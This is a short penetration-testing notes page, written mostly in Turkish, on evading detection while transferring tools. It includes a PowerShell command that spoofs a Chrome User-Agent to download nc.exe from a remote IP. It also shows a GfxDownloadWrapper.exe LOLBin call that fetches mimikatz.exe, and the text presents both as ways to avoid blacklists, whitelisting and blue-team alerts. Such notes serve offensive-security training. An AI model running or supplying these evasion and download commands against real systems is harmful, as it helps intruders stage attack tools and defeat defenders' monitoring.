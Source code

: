 ```yaml
---
icon: material/circle-small
search:
  boost: 2
---
```


# Evading Detection

## Changing User Agent

Yöneticiler User-Agent dizelerinden herhangi birini kara listeye almışsa `#!powershell Invoke-WebRequest` fonksiyonu kullanılarak varsayılan User-Agent değiştirilebilir. Örneğin Chrome dahili olarak kullanılıyorsa, ilgili User-Agent dizesinin ayarlanması isteğin meşru görünmesini sağlayabilir.

### Listing out User Agents

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name, @{ label="User Agent"; Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)} } | fl
```

```text title="Output"
Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
```

### Request with Chrome User Agent

```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome; Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

## LOLBAS / GTFOBins

Belirli uygulamaların beyaz listeye alınması, PowerShell veya Netcat araçlarının kullanılmasına engel olabilir. Ayrıca komut satırı günlükleri mavi takımı uyarabilir. Bu durumda LOLBins kullanmak gerekli olabilir. Örnek bir LOLBin, bazı sistemlere yüklenen `#!batch GfxDownloadWrapper.exe` sürücüsüdür ve yapılandırma dosyalarını düzenli aralıklarla indirme işlevini içerir.

Bu indirme işlevi aşağıdaki şekilde çağrılabilir:

```batch
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

Bu tarz programlar beyaz listeye alınarak çalıştırılmasına izin verilebilir ve uyarıların dışında bırakılabilir.
